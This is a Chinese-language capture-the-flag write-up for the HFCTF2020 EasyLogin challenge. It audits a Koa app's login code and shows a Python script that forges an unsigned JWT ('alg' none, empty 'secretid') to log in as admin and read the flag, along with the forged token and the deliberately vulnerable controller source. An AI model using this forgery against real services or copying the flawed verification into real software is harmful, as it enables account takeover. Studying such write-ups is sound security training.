 # \[HFCTF2020]EasyLogin

## \[HFCTF2020]EasyLogin

## 考点

* koa框架代码审计
* JWT特性

## wp

F12在`/static/app.js`中看到提示koa框架，百度一下找到[koa的框架结构](https://www.cnblogs.com/wangjiahui/p/12660093.html)

尝试直接访问app.js可以得到koa项目入口

![](<../.gitbook/assets/image (20) (1).png>)

在`/static/app.js`中可以看到访问的都是api，所以这里的处理逻辑应该都是api，尝试出来代码位置是`/controllers/api.js`，代码放最后。可以看到它有一个获取token的过程

```javascript
const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization
```

在登录处抓包，可以发现登录时都会加上一个`authorization`参数

![](<../.gitbook/assets/image (15).png>)

去[`https://jwt.io/`](https://jwt.io)可以看到解码后的内容

![](<../.gitbook/assets/image (18) (1).png>)

把`alg`改成`none`，JWT中当`alg`为`none`，`secret`为空时，后端将不执行签名验证。

用户名密码改成`admin`，至于`secretid`，它的处理在如下代码，先从jwt里面获取`secretid`，如果`secretid`未定义、或者是空、或者小于0、或者大于等于18(`global.secrets.length`)，就会抛出错误，下一步是到全局列表变量`global.secrets`中获取`secretid`对应的下标，再去jwt验证。

参数比较多，理一下，`secret`是一个长度18的字符串，`secretid`是一个0-18的数字，`secrets`是一个列表。

```javascript
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
  throw new APIError('login error', 'no such secret id');
 }
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
```

如果把`secretid`改成`[]`，让`secretid`为空列表，`secret`也会变成空，这样就绕过了jwt的验证

```python
import jwt
token = jwt.encode(
{
  "secretid": [],
  "username": "admin",
  "password": "admin",
  "iat": 1640163432
},
algorithm="none",key="")

print(token)
```

payload

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6ImFkbWluIiwiaWF0IjoxNjQwMTYzNDMyfQ.
```

![](<../.gitbook/assets/image (16) (1).png>)

controllers/api.js

```javascript
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')

const APIError = require('../rest').APIError;

module.exports = {
    'POST /api/register': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || username === 'admin'){
            throw new APIError('register error', 'wrong username');
        }

        if(global.secrets.length > 100000) {
            global.secrets = [];
        }

        const secret = crypto.randomBytes(18).toString('hex');
        const secretid = global.secrets.length;
        global.secrets.push(secret)

        const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});

        ctx.rest({
            token: token
        });

        await next();
    },

    'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }

        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};
```

## 小结

1. JWT组成
2. JWT中当`alg`为`none`，`secret`为空时，相当于不执行签名验证。
